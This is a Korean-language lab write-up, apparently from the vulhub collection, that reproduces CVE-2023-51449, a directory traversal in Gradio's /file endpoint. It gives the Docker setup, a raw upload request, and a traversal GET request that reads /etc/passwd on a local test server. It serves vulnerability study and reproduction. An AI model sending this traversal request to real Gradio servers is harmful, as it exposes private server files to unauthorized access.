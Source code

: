 # Gradio /file Interface Directory Traversal (CVE-2023-51449)

디렉터리 트래버설(Directory Traversal) 및 서버 사이드 요청 위조(SSRF)

> 화이트햇 스쿨 3기 - [안서진 (@annseojin)](https://github.com/annseojin)

[中文版本(Chinese version)](https://github.com/vulhub/vulhub/blob/master/gradio/CVE-2023-51449/README.zh-cn.md)

- **Gradio**는 사용자가 프론트트엔드 코드를 작성하지 않고도 머신 러닝 모델을 위한 시각적 웹 인터페이스를 빠르게 구축할 수 있는 Python 라이브러리이다.

- Gradio 4.11 이하 버전에서는 인증이 활성화되지 않은 경우, 공격자가 파일 경로만 알고 있다면 공개 URL을 통해 Gradio 애플리케이션을 실행하는 서버에 존재하는 임의의 파일에 액세스할 수 있다.

참고 자료 (References):

- [gradio-app/gradio#6833](https://github.com/gradio-app/gradio/pull/6833)
- [gradio-app/Make the `/file` secure against file traversal attacks and SSRF](https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2)

## 환경 설정 (Environment Setup)

Gradio 4.10.0으로 빌드된 애플리케이션을 시작하기 위해 다음 명령을 실행해야 한다.

```
docker compose up -d
```

서버가 시작되면 기본적으로 인증(Authentication)이 비활성화되어 있다.
애플리케이션은 브라우저에서 `http://[your-ip]:7680` 주소로 접속할 수 있다.

## 취약점 재현 (Vulnerability Reproduction)

### 1. 파일 업로드 및 파일 경로 확보

업로드 인터페이스를 사용하여 파일을 서버에 업로드하고, 업로드된 파일의 접근 가능한 경로를 확인 및 획득한다.

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--
```

![](3.png)

### 2. 디렉터리 트래버설을 이용한 민감 파일 접근

접근 가능한 파일 경로가 확보되면 `/file` 인터페이스와 디렉터리 트래버설을 사용하여 `/etc/passwd`와 같은 서버 내 민감 파일을 읽을 수 있다.

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip
```

![](4.png)

### 3. 환경 종료

Docker compose 서비스를 종료하고, 리소스를 삭제한다.

```
docker compose down
```

## 요약

- 인증이 비활성화된 상태에서 `/file` 엔드포인트가 디렉터리 트래버설 공격에 취약하다.
- 업로드된 파일 경로를 활용하여 서버 내 임의 파일에 접근할 수 있다.
- Gradio 4.11 이상 버전에서는 해당 취약점이 패치되었다.
